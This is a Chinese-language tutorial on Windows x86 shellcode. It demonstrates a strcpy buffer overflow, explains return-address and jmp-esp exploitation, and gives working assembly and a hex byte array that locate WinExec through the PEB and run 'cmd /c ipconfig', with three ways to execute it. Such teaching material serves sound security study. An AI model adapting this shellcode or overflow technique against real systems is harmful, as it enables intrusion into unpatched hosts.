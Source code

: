 ### shellcode

详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
![](./1.png)

Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务的。 Shellcode是溢出程序和蠕虫病毒的核心，提到它自然就会和漏洞联想在一起，毕竟Shellcode只对没有打补丁的主机有用武之地。网络上数以万计带着漏洞顽强运行着的服务器给hacker和Vxer丰盛的晚餐。漏洞利用中最关键的是Shellcode的编写。由于漏洞发现者在漏洞发现之初并不会给出完整Shellcode，因此掌握Shellcode编写技术就显得尤为重要。
缓冲区溢出的shellcode很多了，这里重现下缓冲区溢出。

```
int fun(char *shellcode)
{
	char str[4]="";//这里定义4个字节
	strcpy(str,shellcode);//这两个shellcode如果超过4个字节，就会导致缓冲区溢出
	printf("%s",str);
	return 1;
}
int main(int argc, char* argv[])
{
  char str[]="aaaaaaaaaaaaaaaaaaa!";
  fun(str);
  return 0;
}
```
如上程序，会导致缓冲区溢出。
程序运行后截图如下
![](./2.png)


如上可以看出来，异常偏移是61616161，其实自己观察61616161其实就是aaaa的Hex编码

因为调用函数的过程大致是
1：将参数从右到左压入堆栈
2：将下一条指令的地址压入堆栈
3：函数内部的临时变量申请
4：函数调用完成，退出
内存栈区从高到低
[参数][ebp][返回地址][函数内部变量空间]
如上程序，如果函数内部变量空间比较小，执行strcpy时候，源字符串比目标字符串长，就会覆盖函数返回地址，导致程序流程变化

![](./3.png)

0048FE44前四个00是str申请的四个字节的并初始化为00，后面的48FF1800是函数的返回地址，再后面的411E4000是ebp，既调用函数的基址。

再往下执行strcpy函数后，可以看见aaaaaaaa覆盖了返回地址

如图
![](./4.png)

可以看见0018FF44地址后面的函数返回地址和ebp都被61填充了。

fun函数执行完后，返回调用fun函数地址时候，导致程序报错。

缓冲区溢出的简单讲解如上，这时候，如果我们把返回地址改成我们自己的函数地址，不就可以执行我们自己的程序了？

缓冲区溢出利用就是把返回地址改成我们自己的函数地址，上面的方法就是覆盖eip，既返回地址，还有一种方法是覆盖SHE，原理差不多。

了解了基本原理，下面可以编写利用的代码

缓冲区溢出，基本的使用方法是jmp esp，覆盖的eip指针是jmp esp的地址，利用的字符串结构如下

[正常的字符串][jmp esp的地址][执行的代码(shellcode)]

关于获取jmp esp的代码，可以自己写个程序，从系统中查找jmp esp代码0xFFE4。

下面开始编写shellcode以及调用实现
```
void fun()
{
	__asm
	{
     mov eax, dword ptr fs:[0x30];
     mov eax, dword ptr [eax+0xC];
     mov eax, dword ptr [eax+0xC];
     mov eax, dword ptr [eax];
     mov eax, dword ptr [eax];
     mov eax, dword ptr [eax+0x18];
     mov ebp,eax                        //Kernel.dll基址
     mov eax,dword ptr ss:[ebp+3CH]      // eax=PE首部
     mov edx,dword ptr ds:[eax+ebp+78H]  //
     add edx,ebp                        // edx=引出表地址
     mov ecx,dword ptr ds:[edx+18H]      // ecx=导出函数个数，NumberOfFunctions
     mov ebx,dword ptr ds:[edx+20H]      //
     add ebx,ebp                        // ebx=函数名地址，AddressOfName
start:                                  //
     dec ecx                            // 循环的开始
     mov esi,dword ptr ds:[ebx+ecx*4]   //
     add esi,ebp                        //
     mov eax,0x50746547                   //
     cmp dword ptr ds:[esi],eax         // 比较PteG
     jnz start                     //
     mov eax,0x41636F72                   //
     cmp dword ptr ds:[esi+4],eax       // 比较Acor，通过GetProcA几个字符就能确定是GetProcAddress
     jnz start                     //
     mov ebx,dword ptr ds:[edx+24H]      //
     add ebx,ebp                        //
     mov cx,word ptr ds:[ebx+ecx*2]     //
     mov ebx,dword ptr ds:[edx+1CH]      //
     add ebx,ebp                        //
     mov eax,dword ptr ds:[ebx+ecx*4]   //
     add eax,ebp                        // eax 现在是GetProcAddress地址
     mov ebx,eax                        // GetProcAddress地址存入ebx，如果写ShellCode的话以后还可以继续调用
     push 0                             //
     push 0x636578                        //
     push 0x456E6957                      // 构造WinExec字符串
     push esp                           //
     push ebp                           // ebp是kernel32.dll的基址 
     call ebx                           // 用GetProcAdress得到WinExec地址
     mov ebx,eax                        // WinExec地址保存到ecx
 
     push 0x00676966
     push 0x6E6F6370
     push 0x6920632F
     push 0x20646d63    //cmd压入栈
 
     lea eax,[esp];     //取到cmd首地址
     push 1             //
     push eax           // ASCII "cmd /c ipconfig"
     call ebx           // 执行WinExec
    // leave            // 跳回原始入口点
	}
}

int main(int argc, char* argv[])
{
   fun();
}
```

如果汇编代码在vc调试下，获取二进制代码如图:
![](./5.png)


查看00401A08的地址，可以看出是fun函数的汇编代码

shellcode代码基本获取到了，现在是要把他复制出来，

我取出来的后，如下

unsigned char shellcode[]={
    0x64,0xA1,0x30,0x00,0x00,0x00,0x8B,0x40,0x0C,0x8B,0x40,0x0C,0x8B,0x00,0x8B,0x00,0x8B,0x40,0x18,0x8B,0xE8,0x36,0x8B,0x45,
    0x3C,0x3E,0x8B,0x54,0x28,0x78,0x03,0xD5,0x3E,0x8B,0x4A,0x18,0x3E,0x8B,0x5A,0x20,0x03,0xDD,0x49,0x3E,0x8B,0x34,0x8B,0x03,
    0xF5,0xB8,0x47,0x65,0x74,0x50,0x3E,0x39,0x06,0x75,0xEF,0xB8,0x72,0x6F,0x63,0x41,0x3E,0x39,0x46,0x04,0x75,0xE4,0x3E,0x8B,
    0x5A,0x24,0x03,0xDD,0x66,0x3E,0x8B,0x0C,0x4B,0x3E,0x8B,0x5A,0x1C,0x03,0xDD,0x3E,0x8B,0x04,0x8B,0x03,0xC5,0x8B,0xD8,0x6A,
    0x00,0x68,0x78,0x65,0x63,0x00,0x68,0x57,0x69,0x6E,0x45,0x54,0x55,0xFF,0xD3,0x8B,0xD8,0x68,0x66,0x69,0x67,0x00,0x68,0x70,
    0x63,0x6F,0x6E,0x68,0x2F,0x63,0x20,0x69,0x68,0x63,0x6D,0x64,0x20,0x8D,0x04,0x24,0x6A,0x01,0x50,0xFF,0xD3};
稍作了下加工，0x是HEX的方式。

下面是我们调用shellcode，看是否可以用

程序如下：

int main(int argc, char* argv[])
{
    unsigned char shellcode[]={
    0x64,0xA1,0x30,0x00,0x00,0x00,0x8B,0x40,0x0C,0x8B,0x40,0x0C,0x8B,0x00,0x8B,0x00,0x8B,0x40,
    0x18,0x8B,0xE8,0x36,0x8B,0x45,0x3C,0x3E,0x8B,0x54,0x28,0x78,0x03,0xD5,0x3E,0x8B,0x4A,0x18,
    0x3E,0x8B,0x5A,0x20,0x03,0xDD,0x49,0x3E,0x8B,0x34,0x8B,0x03,0xF5,0xB8,0x47,0x65,0x74,0x50,
    0x3E,0x39,0x06,0x75,0xEF,0xB8,0x72,0x6F,0x63,0x41,0x3E,0x39,0x46,0x04,0x75,0xE4,0x3E,0x8B,
    0x5A,0x24,0x03,0xDD,0x66,0x3E,0x8B,0x0C,0x4B,0x3E,0x8B,0x5A,0x1C,0x03,0xDD,0x3E,0x8B,0x04,
    0x8B,0x03,0xC5,0x8B,0xD8,0x6A,0x00,0x68,0x78,0x65,0x63,0x00,0x68,0x57,0x69,0x6E,0x45,0x54,
    0x55,0xFF,0xD3,0x8B,0xD8,0x68,0x66,0x69,0x67,0x00,0x68,0x70,0x63,0x6F,0x6E,0x68,0x2F,0x63,
    0x20,0x69,0x68,0x63,0x6D,0x64,0x20,0x8D,0x04,0x24,0x6A,0x01,0x50,0xFF,0xD3};
    //三种方式执行shellcode
    //第一种
    ((void (*)())&shellcode)(); // 执行shellcode
    //第二种
    __asm   
   {   
      lea eax,shellcode;   
      jmp eax;   
   } 
   //第三种
    __asm
   {
      lea eax, shellcode
      push eax
      ret 
   }
}
至此，shellcode的编写完成了，如上这只是shellcode大致编写过程，是在windows下环境编写的，linux环境下的编写过程基本相同
至于更高级的利用，可以去看雪论坛逛逛。

